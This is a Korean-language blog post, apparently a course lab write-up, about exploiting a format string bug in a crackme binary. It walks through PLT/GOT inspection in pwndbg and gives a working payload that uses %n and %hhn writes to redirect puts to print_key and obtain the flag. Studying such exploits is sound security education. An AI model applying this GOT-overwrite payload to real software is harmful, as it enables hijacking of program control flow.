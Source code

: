 ```yaml
---
layout: post
title:  "Format String Vulnerability"
date:   2021-01-17 20:19:35 +0900
categories: [ComputerSecurity]
---
```



# tutorial
지금까지의 buffer overflow를 통한 공격과는 다르게 format string의 취약점을 공략합니다. [튜토리얼 문서](https://tc.gts3.org/cs6265/2020/tut/tut05-fmtstr.html) 참고.  
공격을 위해 PLT와 GOT를 이용합니다. 외부 함수가 호출될 때 우선 PLT를 참조하고, PLT에서 GOT를 참조하는데 이를 이용합니다. 

# 공격 대상 프로그램 crackme0x00
- crackme0x00.c 

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <err.h>

#include "flag.h"

unsigned int secret = 0xdeadbeef;

void handle_failure(char *buf) {
  char msg[100];
  snprintf(msg, sizeof(msg), "Invalid Password! %s\n", buf);
  printf(msg);
}

int main(int argc, char *argv[])
{
  setreuid(geteuid(), geteuid());
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);

  int tmp = secret;

  char buf[100];
  printf("IOLI Crackme Level 0x00\n");
  printf("Password:");

  fgets(buf, sizeof(buf), stdin);

  if (!strcmp(buf, "250382\n")) {
    printf("Password OK :)\n");
  } else {
    handle_failure(buf);
  }

  if (tmp != secret) {
    puts("The secret is modified!\n");
  }

  return 0;
}
```

# 시작
gdb(pwndbg)를 켜고 secret을 바꿔봅니다. `p &secret`으로 secret이라는 변수의 주소를 알아내고, `x/x &secret`으로 해당 변수가 무슨 값을 가지는지 볼 수 있습니다.  
```
pwndbg> p &secret
$1 = (unsigned int *) 0x804a050 <secret>
pwndbg> x/1x &secret
0x804a050 <secret>:     0xdeadbeef
```

`set *&secret=0x10`으로, 0xdeadbeef를 0x00000010으로 바꿔봅니다.

# PLT of puts?  
PLT(Procedure Linkage Table)는 컴파일의 링킹 과정에서 외부 procedure 혹은 함수를 연결해주는 테이블이고, 이를 통해 다른 라이브러리에 정의된 함수를 사용할 수 있습니다. 


gdb(pwndbg)를 켠 뒤, `plt`를 치면 확인할 수 있습니다. 튜토리얼에서는 아래와 같이 뜹니다. 전부 외부 프로시저입니다. 아래에서 `0x08048590`을 보면, puts를 호출할 때 plt를 참조하는 걸 볼 수 있습니다. 

- `plt` 입력 시  
```
pwndbg> plt
0x8048510: strcmp@plt
0x8048520: printf@plt
0x8048530: fgets@plt
0x8048540: fclose@plt
0x8048550: __stack_chk_fail@plt
0x8048560: geteuid@plt
0x8048570: err@plt
0x8048580: fread@plt
0x8048590: puts@plt
0x80485a0: setreuid@plt
0x80485b0: __libc_start_main@plt
0x80485c0: setvbuf@plt
0x80485d0: fopen@plt
0x80485e0: snprintf@plt
0x80485f0: fputs@plt
```

`p puts`, `vmmap puts`를 gdb에서 해봅니다. 

보다 구체적으로는, 가령 external 함수인 `puts`라는 함수가 `0x8048590`에 있다면 `x/5i 0x8048590`을 해봅니다. 아래와 같이 뜹니다. 

- `x/5i 0x8048590` 입력 시  
```
pwndbg> x/10i 0x8048590
   0x8048590 <puts@plt>:        jmp    DWORD PTR ds:0x804a02c
   0x8048596 <puts@plt+6>:      push   0x40
   0x804859b <puts@plt+11>:     jmp    0x8048500
   0x80485a0 <setreuid@plt>:    jmp    DWORD PTR ds:0x804a030
   0x80485a6 <setreuid@plt+6>:  push   0x48
```

첫째 줄의 `jmp` 명령어를 통해서 어디론가 가는 것을 볼 수 있습니다.  
둘째 줄의 0x40 은 일종의 index? 뭐더라? //TODO   
셋째 줄의 `jmp    0x8048500`에서 `x/10i 0x8048500`를 통해 어디로 뛰는지를 보면 아래처럼 나옵니다. 

- `x/10i 0x8048500` 입력 시  
```
pwndbg> x/10i 0x8048500
   0x8048500:   push   DWORD PTR ds:0x804a004
   0x8048506:   jmp    DWORD PTR ds:0x804a008
   0x804850c:   add    BYTE PTR [eax],al
   0x804850e:   add    BYTE PTR [eax],al
   0x8048510 <strcmp@plt>:      jmp    DWORD PTR ds:0x804a00c
   0x8048516 <strcmp@plt+6>:    push   0x0
   0x804851b <strcmp@plt+11>:   jmp    0x8048500
   0x8048520 <printf@plt>:      jmp    DWORD PTR ds:0x804a010
   0x8048526 <printf@plt+6>:    push   0x8
   0x804852b <printf@plt+11>:   jmp    0x8048500
```

이제 `x/5i 0x8048590`를 입력했을 때 나온 주소인 `jmp    DWORD PTR ds:0x804a02c`를 살펴보기 위해 `telescope 0x804a02c`를 입력합니다. [pwndbg telescope 명령어란?](https://browserpwndbg.readthedocs.io/en/docs/commands/procinfo/telescope/)


```
pwndbg> telescope 0x804a02c
00:0000│   0x804a02c (_GLOBAL_OFFSET_TABLE_+44) —▸ 0xf7dd5ca0 (puts) ◂— push   ebp
01:0004│   0x804a030 (_GLOBAL_OFFSET_TABLE_+48) —▸ 0xf7e5eb60 (setreuid) ◂— push   ebx
02:0008│   0x804a034 (_GLOBAL_OFFSET_TABLE_+52) —▸ 0xf7d86e30 (__libc_start_main) ◂— call   0xf7ea52c9
03:000c│   0x804a038 (_GLOBAL_OFFSET_TABLE_+56) —▸ 0xf7dd6410 (setvbuf) ◂— push   ebp
04:0010│   0x804a03c (_GLOBAL_OFFSET_TABLE_+60) —▸ 0x80485d6 (fopen@plt+6) ◂— push   0x60 /* 'h`' */
05:0014│   0x804a040 (_GLOBAL_OFFSET_TABLE_+64) —▸ 0xf7dbf460 (snprintf) ◂— push   ebx
06:0018│   0x804a044 (_GLOBAL_OFFSET_TABLE_+68) —▸ 0x80485f6 (fputs@plt+6) ◂— push   0x70 /* 'hp' */
07:001c│   0x804a048 (data_start) ◂— 0x0
```

그럼 여기 첫째 줄에 보이는 위치인 `0xf7dd5ca0`에 puts 함수가 있는 것을 볼 수 있습니다. 그런데 `0x804a02c`에 다른 함수를 overwrite 할 수 있습니다. puts 대신 print_key와 연결시키기 위해 `set *0x804a02c=print_key`라고 입력합니다. 다시 `telescope 0x804a02c`를 통해 이제 연결이 아래와 같이 바뀌었음을 볼 수 있습니다. 

```
pwndbg> telescope 0x804a02c
00:0000│   0x804a02c (_GLOBAL_OFFSET_TABLE_+44) —▸ 0x8048726 (print_key) ◂— push   ebp
01:0004│   0x804a030 (_GLOBAL_OFFSET_TABLE_+48) —▸ 0xf7e5eb60 (setreuid) ◂— push   ebx
02:0008│   0x804a034 (_GLOBAL_OFFSET_TABLE_+52) —▸ 0xf7d86e30 (__libc_start_main) ◂— call   0xf7ea52c9
03:000c│   0x804a038 (_GLOBAL_OFFSET_TABLE_+56) —▸ 0xf7dd6410 (setvbuf) ◂— push   ebp
04:0010│   0x804a03c (_GLOBAL_OFFSET_TABLE_+60) —▸ 0x80485d6 (fopen@plt+6) ◂— push   0x60 /* 'h`' */
05:0014│   0x804a040 (_GLOBAL_OFFSET_TABLE_+64) —▸ 0xf7dbf460 (snprintf) ◂— push   ebx
06:0018│   0x804a044 (_GLOBAL_OFFSET_TABLE_+68) —▸ 0x80485f6 (fputs@plt+6) ◂— push   0x70 /* 'hp' */
07:001c│   0x804a048 (data_start) ◂— 0x0
```


# GOT(Global Offset Table)
GOT를 보면 각 함수들의 주소가 들어있는데, 이 주소들을 통해 가령 `puts` 대신에 `print_key`로 덮어쓴다든지 하는 행동이 가능하게 됩니다. pwndbg에서는 `got`를 통해 아래와 같이 GOT를 볼 수 있습니다. (안 되게 막아놓은 경우도 있는 것 같습니다.)

![pwndbg_got](/images/computersecurity/pwndbg_got.png)

`0x804a02c`에 `puts`가 있는데, 저 주소는 실제 puts의 주소를 값으로 가지고 있습니다. 

위의 crackme0x00의 마지막 부분에서, `puts` 대신 `print_key` 함수를 호출하게 하면 성공입니다. 가령 `print_key`의 주소가 `0x08048726`라고 한다면, 이 값으로 덮어씁니다. 

# vulnerability of printf

실제 exploit의 코드는 아래와 같이 씁니다. 처음의 `0x0804a050`는 secret을 덮어쓰기 위한 것인데, printf 함수에서 `%n`을 사용하면 현재까지 출력한 바이트 수를 출력해주는데, 이를 메모리 값을 덮어쓰는 데에 이용합니다. 다만 이 32비트 머신 기준으로 `%n`은 4바이트를 덮어써서, 만약 2바이트씩 덮어쓰고 싶으면 `%hn`은 2바이트, `%hhn`은 1바이트를 덮어씁니다.

```
PUTS_GOT = 0x0804a02c
payload = [
    "AA",
    p32(0x0804a050), # 15th
    p32(PUTS_GOT+3), # 16th
    p32(PUTS_GOT+2), # 17th
    p32(PUTS_GOT+1), # 18th
    p32(PUTS_GOT+0), # 19th
    "%15$n",         # overwrite N -> secret
    "%" + str(0x100-0x28+0x08) + "c",
    "%16$hhn",
    "%" + str(0x100-0x08+0x04) + "c",
    "%17$hhn",
    "%" + str(0x87-0x04) + "c",
    "%18$hhn",
    "%" + str(0x100-0x87+0x26) + "c",
    "%19$hhn",
]
```
PUTS_GOT + 3 부터 덮어쓰는 이유는 little endian이기 때문입니다. 위에서 `"%" + str(0x100-0x28+0x08) + "c",` 이 부분은 `print_key` 중 첫 `08`을 덮어씁니다. 

이제 프로세스에 payload를 보내고 하면 `puts` 대신 `print_key`가 호출되므로 flag를 바로 얻을 수 있습니다. 
